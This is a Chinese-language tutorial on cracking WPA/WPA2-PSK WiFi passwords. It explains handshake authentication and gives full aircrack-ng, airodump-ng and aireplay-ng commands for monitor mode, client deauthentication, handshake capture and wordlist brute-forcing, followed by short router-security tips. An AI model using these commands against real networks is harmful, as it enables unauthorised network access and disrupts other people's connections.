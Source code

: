 ## WiFi密码破解与防范

此教程为wifi无线密码破解攻略，建议以探讨学术和热爱网络技术为学习目标。 

## 1 WIFI破解原理

本章节主要介绍WIFI认证方式和认证具体过程，还有如何利用WIFI的认证再破解的基本原理。

### 1.1 wifi认证方式

1、不启用安全

2、WE

3、WPA/WPA2-PSK

4、WPA/WPA2 802.1X （radius认证）

一般我们设置主流的都是第三种。

具体在路由器的配置界面一般如下图所示：

![img](http://image.3001.net/images/20150204/14230352482243.png)

### 1.2 WPA-PSK的认证过程：

![img](http://image.3001.net/images/20150204/14230353336924.png)

> 1、无线AP定期发送beacon数据包，使无线终端更新自己的无线网络列表。
>
> 2、无线终端在每个信道（1-13）广播ProbeRequest（非隐藏类型的WiFi含ESSID，隐藏类型的WiFi不含ESSID）
>
> 3、每个信道的AP回应，ProbeResponse，包含ESSID，及RSN信息
>
> 4、无线终端给目标AP发送AUTH包。AUTH认证类型有两种，0为开放式、1为共享式（WPA/WPA2必须是开放式）
>
> 5、AP回应网卡AUTH包
>
> 6、无线终端给AP发送关联请求包associationrequest数据包 7、AP给无线终端发送关联响应包associationresponse数据包
>
> 8、EAPOL四次握手进行认证（握手包是破解的关键）
>
> 9、完成认证可以上网。

### 1.3 WPA-PSK认证四次握手认证的过程

![img](http://image.3001.net/images/20150204/1423035431460.png)

### 1.4 WPA-PSK破解原理

用我们字典中的PSK+ssid先生成PMK（此步最耗时，是目前破解的瓶颈所在），然后结合握手包中的客户端MAC，AP的BSSID，A-NONCE，S-NONCE计算PTK，再加上原始的报文数据算出MIC并与AP发送的MIC比较，如果一致，那么该PSK就是密钥。

如图所示：

![img](http://image.3001.net/images/20150204/142303547147.png)

## 2 WIFI破解过程

### 2.1 破解wifi实战

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop

```

```
airmon-ng check kill

```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig

```

或者

```
iwconfig

```

找到是否有wlan0无线网卡的，如果没有无线网卡请插入usb无线网卡。 如果是插入usb网卡请

```
ifconfig wlan0 up

```

加载无线网卡

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0

```

![img](http://image.3001.net/images/20150204/14230355012283.png)

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng mon0

```

查看周边路由AP的信息。

个人经验一般信号强度大于-70的可以进行破解，大于-60就最好了，小于-70的不稳定，信号比较弱。（信号强度的绝对值越小表示信号越强）

![img](http://image.3001.net/images/20150204/14230355329489.png!small) ![img](http://image.3001.net/images/20150204/14230355587380.png!small)

![img](http://image.3001.net/images/20150204/14230356574818.png!small)

**（5）. 选择要破解的WiFi，有针对性的进行抓握手包**

```
airodump-ng --ignore-negative-one -w  /tmp/test.cap-c 11 --bssid 40:16:9F:76:E7:DE mon0

```

参数说明：-w 保存数据包的文件名 –c 信道 –bssid ap的mac地址 (注意test.cap会被重命名)，也可以用其他工具抓包比如：wireshark、tcpdump，抓到握手包会有提示。

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

为了顺利抓到握手包，我们需要使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包。（注意：抓握手包破解必须有合法的客户端才行。）

攻击命令如下

```
aireplay-ng -0 3 -a B8:A3:86:63:B4:06 -c 00:18:1a:10:da:c9 -x 200 mon0

```

参数说明：-0 Deautenticate 冲突模式 3 发包次数 -x 发包速度

![img](http://images.51cto.com/files/uploadimg/20110526/15005025.jpg)

如果攻击成功,airodump-ng捕获`handshake` ,此时可以ctrl+c终止airodump-ng抓包。

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng-w pass-haoyong.txt test-03.cap

```

参数解释：-w 字典路径

![img](http://image.3001.net/images/20150204/14230358365729.png!small)

如果字典中有对方的密码，那么经过一段时间就会破解成功，最终会出现 **FOUND KEY!**字样.

![img](http://images.51cto.com/files/uploadimg/20110526/15005029.jpg)

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```

### 2.2 有关WIFI安全建议

（1） 路由密码不要设置WEP方式加密的，因为WPA2-PSK的加密方式是不可逆的，但是wep确实可逆的，不论你设置的密码多么复杂，都会被秒破。

（2） 加密方式选择WPA2-PSK，密码不要设置常用面比如简单的123456aa这种。一般网上流传的密码字典会包括这种密码，所以很多常用字典可以轻易破解

（3）密码难度稍微复杂一些，长度不要局限8位，即可。